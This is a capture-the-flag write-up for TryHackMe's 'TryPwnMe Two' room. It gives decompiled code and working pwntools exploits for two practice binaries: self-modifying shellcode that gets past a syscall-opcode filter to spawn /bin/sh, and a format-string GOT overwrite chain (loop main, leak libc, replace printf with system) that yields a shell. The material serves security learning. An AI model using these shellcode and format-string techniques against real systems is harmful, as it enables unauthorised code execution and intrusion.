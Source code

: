 # TryPwnMe Two

<https://tryhackme.com/room/trypwnmetwo>

A sequel to [TryPwnMe One](https://tryhackme.com/room/trypwnmeone) ([my writeup](./trypwnmeone.md))

## TryExecMe2

This is a shell code executor: it reads 100 chars from the input, runs them through a function called 'forbidden' which looks for any use of `\x0f \x05` (syscall) or `\x0f \x32` (sysenter) or `\xcd \x80` (int 80, old fashioned syscall) and, if none of these are found, will then run the code as if it was a function.

```c
undefined8 main(void)
{
  char cVar1;
  code *__buf;
  
  setup();
  banner();
  __buf = (code *)mmap((void *)0xcafe0000,100,7,0x22,-1,0);
  puts("\nGive me your spell, and I will execute it: ");
  read(0,__buf,0x80);
  puts("\nExecuting Spell...\n");
  cVar1 = forbidden(__buf);
  if (cVar1 != '\0') {
    exit(1);
  }
  (*__buf)();
  return 0;
}

undefined8 forbidden(long param_1)
{
  ulong local_18;
  
  local_18 = 0;
  while( true ) {
    if (0x7e < local_18) {
      return 0;
    }
    if ((*(char *)(local_18 + param_1) == '\x0f') && (*(char *)(param_1 + local_18 + 1) == '\x05'))
    {
      puts("Forbidden spell detected!");
      return 1;
    }
    if ((*(char *)(local_18 + param_1) == '\x0f') && (*(char *)(param_1 + local_18 + 1) == '4')) {
      puts("Forbidden spell detected!");
      return 1;
    }
    if ((*(char *)(local_18 + param_1) == -0x33) && (*(char *)(param_1 + local_18 + 1) == -0x80))
    break;
    local_18 = local_18 + 1;
  }
  puts("Forbidden spell detected!");
  return 1;
}
```

So what can you do with a < 100 byte shellcode, where you can't use any syscalls (at least directly)?

The solution is to use some self-modifying shellcode:

1. we execute /bin/sh via execve as normal. This is setting up some stack variables and then invoking syscall (`\x05\x0f`)
2. instead of the syscall opcodes though, we put two nops `\x90\x90`
3. and at the beginning, before we set up args, we find the syscall address and replace it with the right codes
4. the right codes are stored xor'ed, and are un-xor'd before writing

the below pwntools code does all of this and spawns a shell:

```python
from pwn import *

context.arch = 'amd64'
shellcode = asm('''
    lea rsi, [rip + syscall_location]
    mov ax, 0x7316
    xor ax, 0x7619 /* 0x7316 ^ 0x7619 = 0x050f */
    mov [rsi], ax
    
    /* execve setup */
    xor rdx, rdx
    push rdx
    mov rax, 0x68732f2f6e69622f /* /bin/sh */
    push rax
    mov rdi, rsp
    push rdx
    push rdi
    mov rsi, rsp
    mov rax, 59
    
syscall_location:
    nop
    nop
''')

# p = process('./TryExecMe2/tryexecme2')
p = remote('10.10.49.142', 5002)

p.clean()
p.sendline(shellcode)
p.interactive()
```

## NotSpecified2

This is a format string vulnerability:

```c
void main(void)
{
  long in_FS_OFFSET;
  char local_218 [520];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  puts("Please provide your username:");
  read(0,local_218,0x200);
  printf("Thanks ");
  printf(local_218);
  exit(0x539);
  return;
}
```

Fairly standard. The binary has all protections but is not PIE, and the libc it uses is also provided. By testing with "AAAAAAAA %6$p" we find the offset to the buffer is 6. The goal will be to overwrite the got entry for exit with something, likely system. However, we need a libc leak (as libc itself is PIE) to find the address of system... as the program only reads and writes once, we will need to loop main.

The steps will be:

1. Use format string bug to overwrite exit to main's address, causing main to loop
2. On second loop, leak a libc address, so we can calculate where libc is (its PIE)
3. On the third loop, overwrite printf with system.
4. On the fourth and final loop, put the address of /bin/sh into the buffer - it will spawn a shell when 'printf' is called

the below code will do this (WIP):

```python
from pwn import *

elf = context.binary = ELF("./NotSpecified2/notspecified2")
libc = ELF("./NotSpecified2/libc.so.6")
ld = ELF("./NotSpecified2/ld-linux-x86-64.so.2")

# p = process([ld.path, elf.path], env={"LD_PRELOAD": libc.path})
p = remote('10.10.241.248', 5000)
p.recvuntil(b"Please provide your username:\x0a")

# offset found with p.sendline(b'AAAAAAAA %6$p')
offset = 6

# make main loop by changing the final exit to the start of main
payload = fmtstr_payload(6, {elf.got.exit : elf.sym.main})
p.sendline(payload)

p.recvuntil(b"Please provide your username:\x0a")

# on second loop leak printf address to calculate libc base
payload = b"%7$s||||" + p64(elf.got.puts)
p.sendline(payload)

result = p.recvuntil(b"Please provide your username:\x0a")

puts_address = u64(result[7:13].ljust(8, b'\x00'))
libc.address = puts_address - libc.sym.puts
print(libc.address)

# set printf to system on third loop
payload = fmtstr_payload(6, {elf.got.printf : libc.sym.system})
p.sendline(payload)

p.recvuntil(b"Please provide your username:\x0a")

# spawn shell on fourth loop (printf will now be system)
# strings -a -t x libc.so.6 | grep /bin/sh
payload = p64(libc.address + 0x1d8698)
p.sendline(payload)

p.interactive()
```

Note main is still looping, so the output is a bit mangled. But the shell works.
